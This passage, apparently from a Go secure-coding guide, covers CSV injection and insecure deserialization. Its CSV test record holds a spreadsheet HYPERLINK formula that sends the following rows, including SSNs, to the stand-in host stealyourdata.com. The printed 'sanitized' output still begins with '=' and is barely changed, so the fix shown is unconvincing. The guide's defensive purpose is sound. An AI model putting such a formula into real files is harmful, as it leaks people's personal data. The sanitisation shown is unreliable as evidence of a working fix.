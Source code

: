 ```go
 in := `
first_name,last_name,ssn,dob,username
"John","Doe","000000000","00/00/00","=HYPERLINK(""http://stealyourdata.com?x=""&TEXTJOIN("","",TRUE,INDIRECT(""A"" & ROW() + 1 & "":E"" & ROWS(A:A))), ""Click here for username"")"
`
 r := csv.NewReader(strings.NewReader(in))

 for {
  record, err := r.Read()
  if err == io.EOF {
   break
  }
  if err != nil {
   log.Fatal(err)
  }

  fmt.Printf("Unsanitized: %v\n", record[4])
  fmt.Printf("Sanitized: %v\n", sanitize(record[4]))

 }
}
```

Output

```text
Unsanitized:=HYPERLINK("http://stealyourdata.com?x="&TEXTJOIN(",",TRUE,INDIRECT("A" & ROW() + 1 & ":E" & ROWS(A:A))), "Click here for username")
Sanitized: =HYPERLINK("http://stealyourdata.com?x ="&TEXTJOIN(",",TRUE,INDIRECT("A" & ROW()  + 1 & ":E" & ROWS(A:A))), "Click here for username")
```

So it would be wise to parse and sanitize (either by rolling out your own or using a library) the data to prevent such attacks.

### Insecure deserialization

This goes without saying, but deserializing data from untrusted sources should be handled with care. If not handled properly it can lead to RCE or state manipulation. So we can start by sticking to safer deserialization formats like JSON, ensuring whatever library we're using to deserialize does not allow arbitrary code execution, and using authentication (e.g. cookies, JWT, etc). If you're in control of the client, ensure you properly validate and sanitize any input before it's serialized and sent over the network (This doesn't guarantee tampering but it's one of many safeguards you can implement end-to-end). With this in mind, we can leverage language features like reflection/struct tags and roll out your own validation or use third-party libraries like validator to validate the deserialized data. My goal is to provide a general idea here, how you choose to implement is driven by your requirements and preferences.

```go
type User struct {
  Name string `json:"name" validate:"string,min=2,max=10"`
  Age int`json:"age" validate:"number,gte=0,lte=100"`
  Email string `json:"email" validate:"email,max=32"`
  Password string `json:"-"`
}

func jwtMiddleware(next http.Handler) http.Handler {...}
func validateStruct(s interface {}) error {...}

func handleNewUser(w http.ResponsWriter, r *http.Request) {
  var u User
  if err := json.NewDecoder(r.Body).Decode(&u); err != nil {
    http.Error(w, err.Error(), http.StatusBadRequest)
    return
  }

```